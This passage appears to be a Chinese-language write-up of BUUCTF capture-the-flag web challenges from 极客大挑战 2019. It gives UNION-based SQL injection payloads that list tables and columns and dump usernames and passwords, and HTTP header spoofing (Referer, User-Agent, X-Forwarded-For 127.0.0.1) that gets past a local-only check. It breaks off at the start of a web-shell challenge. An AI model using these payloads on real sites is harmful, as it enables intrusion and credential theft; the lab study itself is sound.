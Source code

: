 看表名

```
1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema='geek'#
```

![image-20230420153129832](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420153129832.png)

看字段

```
group_concat(column_name) from information_schema.columns where table_schema='geek' and table_name='l0ve1ysq1'#
```

![image-20230420153259465](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420153259465.png)

看数据

```sql
group_concat(id,username,password) from l0ve1ysq1
```

有flag，geekuser没有flag

![image-20230420153428473](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420153428473.png)

## 极客大挑战 2019]Http

打开，发现信息

![image-20230420154629357](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420154629357.png)

```
It doesn't come from 'https://Sycsecret.buuoj.cn'
Please use "Syclover" browser
No!!! you can only read this locally!!!
```

http头：referer:https://Sycsecret.buuoj.cn

User-Agent: Syclover

X-Forwarded-For:127.0.0.1

flag

![image-20230420155202935](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420155202935.png)

## [极客大挑战 2019]Knife

命令查看

![image-20230420155510702](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420155510702.png)

再查看源代码

